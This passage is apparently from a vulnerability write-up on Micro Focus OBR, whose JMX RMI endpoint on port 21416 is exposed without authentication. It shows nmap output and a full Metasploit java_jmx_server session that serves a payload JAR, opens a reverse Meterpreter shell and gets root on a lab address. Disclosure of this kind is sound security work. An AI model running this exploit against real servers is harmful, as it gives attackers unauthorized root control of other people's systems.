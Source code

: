 ```
PORT      STATE SERVICE  VERSION
21416/tcp open  java-rmi Java RMI
| rmi-dumpregistry:
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @10.10.10.123:41123
|             extends
|_              java.rmi.server.RemoteObject

```

OBR exposes a [Java Management Extensions](https://en.wikipedia.org/wiki/Java_Management_Extensions) (JMX) endpoint on port TCP 21416. This is completely intentional, as their [installation documentation](https://docs.microfocus.com/OBR/10.40/OBR_Interactive_Installation/Content/_HPc_Interactive_Document.htm) requires the port to be opened in the server host firewall.

By default, the JMX endpoint is exposed without any authentication by the Tomcat server running the administrative web application.

This means that exploitation is trivial with Metasploit's [java_jmx_server exploit](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/java_jmx_server.rb):

```
msf5 > use exploit/multi/misc/java_jmx_server
msf5 exploit(multi/misc/java_jmx_server) > set rhost 10.10.10.123
rhost => 10.10.10.123
msf5 exploit(multi/misc/java_jmx_server) > set rport 21416
rport => 21416
msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.123:21416 - Using URL: http://0.0.0.0:8080/HFgzJtKH6uuT49
[*] 10.10.10.123:21416 - Local IP: http://10.10.10.1:8080/HFgzJtKH6uuT49
[*] 10.10.10.123:21416 - Sending RMI Header...
[*] 10.10.10.123:21416 - Discovering the JMXRMI endpoint...
[+] 10.10.10.123:21416 - JMXRMI endpoint on 10.10.10.123:41123
[*] 10.10.10.123:21416 - Proceeding with handshake...
[+] 10.10.10.123:21416 - Handshake with JMX MBean server on 10.10.10.123:41123
[*] 10.10.10.123:21416 - Loading payload...
[*] 10.10.10.123:21416 - Replied to request for mlet
[*] 10.10.10.123:21416 - Replied to request for payload JAR
[*] 10.10.10.123:21416 - Executing payload...
[*] Sending stage (53927 bytes) to 10.10.10.123
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.123:53196) at 2020-05-07 20:55:40 +0700

meterpreter > getuid
Server username: root
meterpreter >
```
